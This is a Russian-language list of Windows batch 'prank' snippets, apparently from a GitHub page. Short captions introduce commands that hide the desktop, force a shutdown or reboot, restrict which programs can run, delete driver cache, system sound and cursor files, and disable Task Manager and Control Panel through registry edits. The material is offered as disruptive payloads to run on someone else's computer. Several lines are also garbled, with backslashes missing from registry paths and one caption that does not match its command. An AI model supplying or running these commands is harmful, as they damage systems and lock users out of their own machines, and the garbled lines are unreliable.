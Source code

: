 Убирает рабочий стол

@echo off
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDesktop /t REG_DWORD /d 1 /f >nul

Выключается компьютер

@echo off
shutdown -s -t 1 -c "lol" >nul

Перезагрузка компьютера

@echo off
shutdown -r -t 1 -c "lol" >nul

Запрещает запускать программы

@echo off
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\RestrictRun /v 1 /t REG_DWORD /d %SystemRoot%\explorer.exe /f >nul


Удаление дров

@echo off
del "%SystemRoot%\Driver Cache\i386\driver.cab" /f /q >nul

Удаляет звуки Windows

@echo off
del "%SystemRoot%\Media" /q >nul

Запрещает заходить в панель управления

@echo off
reg add HKCU\Software\Microsoft\Windows\Current Version\Policies\Explorer
/v NoControlPanel /t REG_DWORD /d 1 /f >nul

Запрещает комбинацию Ctrl-Alt-Delete

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem /v DisableTaskMgr /t REG_DWORD /d 1 /f >nul

Меняет местами значение кнопок мыши

%SystemRoot%/system32/rundll32 user32, SwapMouseButton >nul

Удаляет курсор мыши

del "%SystemRoot%Cursors*.*" >nul

Меняет название корзины

reg add HKCU\Software\Microsoft\Windows\ShellNoRoam\MUICache /v @C:\WINDOWS\system32\SHELL32.dll,-8964 /t REG_SZ /d ТУТ НАЗВАНИЕ КОРЗИНЫ /F

Убирает панель управления

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
